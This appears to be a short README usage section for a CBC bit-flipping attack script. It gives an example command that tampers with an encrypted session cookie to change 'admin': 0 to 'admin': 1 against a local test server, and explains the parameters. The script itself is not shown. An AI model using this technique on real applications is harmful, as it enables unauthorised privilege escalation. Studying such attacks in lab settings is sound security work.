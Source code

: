# Usage

Run on the command line with the necessary parameters

example:
```python
python3 cbcBitFlipping.py \
--url "http://127.0.0.1:9091/read" \
--session "76xobRieNsQtbEbN8RFt6lyzY5qChDQWRW4meH3WrL/ELv5GBB7vktl5Kb+NEkMeBK7EXXruHJvjT70mDFJWig==" \
--old '{"admin": 0, "username": "user1"}' \
--new '{"admin": 1, "username": "user1"}' \
--param filename test.txt \
--delay 0.1 \
--success-substring "File not found."
```


Enter the original session content at the --old parameter and the desired tampered session content at the --new parameter.

If necessary, enter the parameters and values you want to attach to the -param parameter.

Type the keyword included in the returned packet after successfully bypassing forensics at success-substring to make it easier for the script to identify which rollover attack was successful.


# Acknowledgments

My Computer
